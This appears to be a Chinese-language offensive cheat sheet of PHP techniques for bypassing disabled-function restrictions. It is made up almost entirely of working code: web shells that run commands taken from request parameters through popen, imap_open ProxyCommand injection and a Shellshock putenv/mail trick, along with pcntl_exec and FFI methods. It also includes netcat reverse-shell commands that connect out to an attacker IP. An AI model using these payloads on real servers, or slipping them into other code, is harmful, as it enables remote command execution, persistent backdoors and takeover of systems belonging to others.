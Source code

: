 #### 常规函数绕过
```php
<?php
echo exec('whoami');?>
------------------------------------------------------
<?php
echo shell_exec('whoami');?>
------------------------------------------------------
<?php
system('whoami');?>
------------------------------------------------------
<?php
passthru("whoami");?>
------------------------------------------------------
<?php
$command=$_POST['cmd'];
$handle = popen($command , "r");
while(!feof($handle))
{        echo fread($handle, 1024);  //fread($handle, 1024);
}
pclose($handle);?>
-------------------------------------------------------
<?php
$command="ipconfig";
$descriptorspec = array(1 => array("pipe", "w"));
$handle = proc_open($command ,$descriptorspec , $pipes);
while(!feof($pipes[1]))
{        echo fread($pipes[1], 1024); //fgets($pipes[1],1024);
}?>
```
#### pcntl_exec
	开启了pcntl 扩展，并且php 4>=4.2.0 , php5，linux
```php
<?php
if(function_exists('pcntl_exec')) {
pcntl_exec("/bin/bash", array("/tmp/test.sh"));
} else {
echo 'pcntl extension is not support!';
}
?>
```
	test.sh
	#!/bin/bash
	nc -e /bin/bash 1.1.1.1 8888       #反弹shell
#### imap_open函数
```php
<?php
error_reporting(0);
if (!function_exists('imap_open')) {
die("no imap_open function!");
}
$server = "x -oProxyCommand=echo\t" . base64_encode($_GET['cmd'] . ">/tmp/cmd_result") . "|base64\t-d|sh}";
imap_open('{' . $server . ':143/imap}INBOX', '', '');
sleep(5);
echo file_get_contents("/tmp/cmd_result");
?>
```
#### php7.4 FFI绕过
	php 7.4
	ffi.enable=true
```php
<?php
$a='nc -e /bin/bash ip 8888';
$ffi = FFI::cdef(
    "int system(char *command);",
    "libc.so.6");
$ffi->system($a);
?>
```
### shellshock
	存在CVE-2014-6271漏洞
	PHP 5.*，linux，putenv()、mail()可用
```php
<?php
function shellshock($cmd) {
$tmp = tempnam(".","data");
putenv("PHP_LOL=() { x; }; $cmd >$tmp 2>&1");
mail("a@127.0.0.1","","","","-bv");
$output = @file_get_contents($tmp);
@unlink($tmp);
if($output != "") return $output;
else return "No output, or not vuln.";
}
echo shellshock($_REQUEST["cmd"]);
?>
```